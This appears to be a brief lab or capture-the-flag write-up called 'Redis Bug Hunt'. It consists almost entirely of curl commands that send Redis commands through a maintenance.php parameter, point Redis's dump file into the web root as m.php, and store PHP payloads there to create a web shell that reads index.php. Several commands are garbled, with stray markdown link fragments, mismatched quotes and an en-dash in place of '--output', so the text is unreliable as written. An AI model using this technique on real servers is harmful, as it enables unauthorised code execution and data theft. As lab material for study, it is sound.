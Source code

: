 # Redis Bug Hunt
The objective is to retrieve the index.php file from the server.

This can be done using these commands:

    curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html](http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html)
    curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
    curl 'http://localhost/maintenance.php?cmd=set,test,maintenance.php?cmd=set,test),<?php%20phpinfo();%20?>'
    curl http://localhost/maintenance.php?cmd=set,test](http://localhost/maintenance.php?cmd=set,test),<?php%20echo%20file_get_contents("index.php");%20?>'
    curl http://localhost/maintenance.php?cmd=save
    curl http://localhost/](http://localhost/m.php)[m](http://localhost/m.php)[.php](http://localhost/m.php) –output -

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3NzEzMTgwNjcsNzMwOTk4MTE2XX0=
-->